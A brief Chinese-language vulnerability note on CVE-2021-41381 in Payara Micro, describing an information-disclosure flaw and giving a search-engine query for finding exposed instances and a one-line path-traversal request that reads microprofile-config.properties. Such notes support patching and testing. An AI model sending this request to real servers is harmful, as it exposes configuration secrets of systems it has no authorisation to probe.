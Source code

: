 # 

# PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381

## 漏洞描述

PayaraMicro microprofile-config.properties文件配置错误的情况下可被任意用户读取，获取敏感信息

## 漏洞影响

```
Payara Micro Community 5.2021.6
```

## 网络测绘

```
app="Payara-Micro"
```

## 漏洞复现

产品页面

![image-20220525163706617](./images/202205251637689.png)

验证POC

```
/.//WEB-INF/classes/META-INF/microprofile-config.properties
```

![image-20220525163715004](./images/202205251637074.png)
